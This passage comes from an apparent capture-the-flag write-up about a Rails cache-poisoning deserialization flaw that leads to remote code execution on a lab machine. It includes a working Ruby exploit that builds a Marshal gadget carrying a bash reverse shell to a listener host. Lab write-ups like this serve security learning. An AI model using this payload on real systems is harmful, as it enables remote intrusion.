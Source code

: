The user class must be defined in `app/models/user.rb`.

`app/models/user.rb` L1-L11

```ruby
class User < ActiveRecord::Base
 has_many :articles
 has_secure_password
 VALID_USER_REGEX = /\A[\w\d]+\z/
 VALID_EMAIL_REGEX = /\A[\w+\-.]+@[a-z\d\-.]+\.[a-z]+\z/i
 validates :username, presence: true, uniqueness: { case_sensitive: false }, length: { minimum: 3, maximum: 25 },
                      format: { with: VALID_USER_REGEX }
 validates :email, presence: true, length: { maximum: 105 }, uniqueness: { case_sensitive: false },
                   format: { with: VALID_EMAIL_REGEX }
 before_save { self.email = email.downcase }
end
```

So the username must contains only alphanumeric characters and be 3 to 25 chars
long.
At first glance it looks impossible to poison the username with a malicious
payload to corrupt the cache.
But a more in depth analysis shows that we will be able to perform our
deserialization to RCE.

Looking back at `app/controllers/users_controller.rb` the username is
written into the cache without any control (what we just saw in `app/models/user.rb`
are constraints on the database not the cache), then it will update the database
but fails because there username format won't we respected and so it will trigger
the cache deletion. But the deletion won't work because as the payload will be
evaluated it will crash the app (500 error) so the cached value will stay stored
and be retrieved on a subsequent fetch request.

## Web exploitation

Since it's an authenticated vulnerability (yes to update your username you need
an account), let's register one on the blog (http://10.10.10.211:8080/signup).

We can edit the username at this address http://10.10.10.211:8080/users/19/edit
but before that we'll need to craft a payload.

Let's retrieve the PoC from the H1 report and modify it a little bit to include
a reverse shell and url-encode the payload:

```ruby
require 'erb'
require 'rails/all'
require 'uri'

remote_code = <<-RUBY
`/bin/bash -c "bash -i &>/dev/tcp/10.10.14.125/9999 0>&1"`
RUBY

erb = ERB.allocate
erb.instance_variable_set(:@src, remote_code)
erb.instance_variable_set(:@lineno, 0)
deprecation = ActiveSupport::Deprecation::DeprecatedInstanceVariableProxy.new(erb, :result)
exploit_data = Marshal.dump(deprecation)

puts URI.encode_www_form(username: exploit_data)
```
